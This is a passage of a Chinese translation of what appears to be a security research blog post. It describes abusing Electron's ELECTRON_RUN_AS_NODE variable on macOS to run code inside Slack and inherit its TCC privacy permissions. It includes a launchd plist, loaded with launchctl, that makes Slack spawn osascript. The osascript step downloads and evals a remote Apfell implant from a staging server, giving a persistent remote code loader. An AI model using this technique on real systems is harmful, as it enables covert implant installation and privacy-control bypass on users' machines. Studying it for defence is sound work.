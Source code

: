 [![](https://p0.ssl.qhimg.com/t014432bca484ea3846.png)](https://p0.ssl.qhimg.com/t014432bca484ea3846.png)

你会看到它用Visual Studio Code也可以正常工作：

[![](https://p0.ssl.qhimg.com/t01596f4d9fcd27d222.png)](https://p0.ssl.qhimg.com/t01596f4d9fcd27d222.png)

Discord：

[![](https://p3.ssl.qhimg.com/t017f9dbd7ad7b97d24.png)](https://p3.ssl.qhimg.com/t017f9dbd7ad7b97d24.png)

甚至BloodHound：

[![](https://p2.ssl.qhimg.com/t01e5190bdf2e031637.png)](https://p2.ssl.qhimg.com/t01e5190bdf2e031637.png)

那么，这对我们来说意味着什么呢？在MacOS环境中，这意味着，我们可以很容易地通过执行`ELECTRON_RUN_AS_NODE`环境变量，让我们的NodeJS代码被执行。

让我们以Slack为例（尽管任何应用程序都可以很好地工作），并利用它对桌面和文档的访问来解决TCC问题。在MacOS中，一个子进程将从父进程继承TCC权限，这意味着我们可以使用`NodeJS`派生一个子进程，比如`Apfell 's implant`，它将继承所有用户授予的隐私切换权限。

为了做到这一点，我们先打开Electron：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
    &lt;key&gt;EnvironmentVariables&lt;/key&gt;
    &lt;dict&gt;
           &lt;key&gt;ELECTRON_RUN_AS_NODE&lt;/key&gt;
           &lt;string&gt;true&lt;/string&gt;
    &lt;/dict&gt;
    &lt;key&gt;Label&lt;/key&gt;
    &lt;string&gt;com.xpnsec.hideme&lt;/string&gt;
    &lt;key&gt;ProgramArguments&lt;/key&gt;
    &lt;array&gt;
        &lt;string&gt;/Applications/Slack.app/Contents/MacOS/Slack&lt;/string&gt;
        &lt;string&gt;-e&lt;/string&gt;
        &lt;string&gt;const `{` spawn `}` = require("child_process"); spawn("osascript", ["-l","JavaScript","-e","eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding( $.NSData.dataWithContentsOfURL( $.NSURL.URLWithString('http://stagingserver/apfell.js')), $.NSUTF8StringEncoding)));"]);&lt;/string&gt;
    &lt;/array&gt;
    &lt;key&gt;RunAtLoad&lt;/key&gt;
    &lt;true/&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```

然后我们使用`ELECTRON_RUN_AS_NODE`环境变量，通过`OSAScript`执行`Apfell`：

```
launchctl load /tmp/loadme.plist
```
